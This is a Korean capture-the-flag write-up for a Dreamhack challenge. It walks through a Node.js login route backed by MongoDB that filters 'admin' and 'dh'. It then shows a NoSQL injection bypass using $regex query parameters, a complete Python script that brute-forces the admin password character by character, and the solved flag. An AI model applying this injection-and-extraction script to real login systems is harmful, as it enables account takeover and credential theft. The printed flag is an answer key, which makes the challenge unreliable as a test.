



문제는 **이 문제는 데이터베이스에 저장된 플래그를 획득하는 문제입니다. 플래그는 admin 계정의 비밀번호 입니다. 플래그의 형식은 DH{...} 입니다. {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}**  
먼저 코드를 보겠습니다.  
  
이번에는 파이썬이 아니라 자바스크립트 파일입니다.  
먼저 path 에 따라 나누겠습니다.  
(1)   
(2)   
1. /
위의 그림처럼 **/login?uid=guest&upw=guest** 를 화면에 출력합니다.  
2. /login
위의 그림은 **/login?uid=guest&upw=guest** 를 적은 상황인데, 이렇게 **uid를 화면에 출력** 합니다.

/login 의 작동방식을 간단히 보면
1. request query 를 **filter 함수**에 넣는다.  
2. filter 함수에서는 request query 를 JSON으로 만들고 **admin, dh, admi 가 들어갔는지 확인**해서, 있다면 filter 처리합니다.  
3. 만약 filter 함수를 잘 통과했다면, user 콜렉션에서 **입력한 uid, upw 가 있는지 확인**해서 **있다면 uid를 화면에 출력**한다.  
즉, 위에 있던 그림은 uid, upw가 guest 인 것을 찾았기 때문에 uid인 guest 를 출력합니다.

그래서 **/login?uid=admin&upw=flag 값** 을 적으면 끝이다.  
그러나 코드에서 힌트를 보면 32자리이고 숫자, 영문자가 들어간다.  
즉, 한 자리씩 찾으면 됩니다.  
처음에 burf suite 를 사용해서 찾으려 했지만, 브루트포스를 하는 데 생각보다 오래 걸려서 python으로 하나씩 찾았습니다.  

```python
import requests

# char 에 flag에 들어갈 수 있는 모든 문자를 다 넣음(숫자, 영문자)
char = []
for i in range(48, 58):
    char.append(chr(i))

for i in range(65, 91):
    char.append(chr(i))

for i in range(97, 123):
    char.append(chr(i))

# flag가 들어갈 공간
flag = ""

# DH{flag(32자리)} 에서 32자리를 찾아야하므로, 32번 반복
for i in range(32):
    for j in range(len(char)):
        # uid[$regex]=ad.in -> ad(아무 글자)in 을 의미함(정규표현식으로 filter을 우회함)
        # upw[$regex]=D.{{{flag}{char[j]} -> D(아무글자(H)){ flag(현재 찾은 flag) char[j](현재 확인하고 있는 글자) }
        response = requests.get(f'http://host3.dreamhack.games:23479/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{char[j]}')

        # 만약 response message의 text에 admin이 있다면, 현재 flag의 일부(혹은 전부)가 맞다는 뜻이므로 현재 확인한 글자를 flag에 추가하고 break
        if 'admin' in response.text:
            flag += char[j]
            break

# flag 출력
print(f"DH{{{flag}}}")
```

     위의 코드를 실행하면, 다음과 같이 flag 가 나옵니다.   
따라서 정답은 **DH{89e50fa6fafe2604e33c0ba05843d3df}** 입니다.  
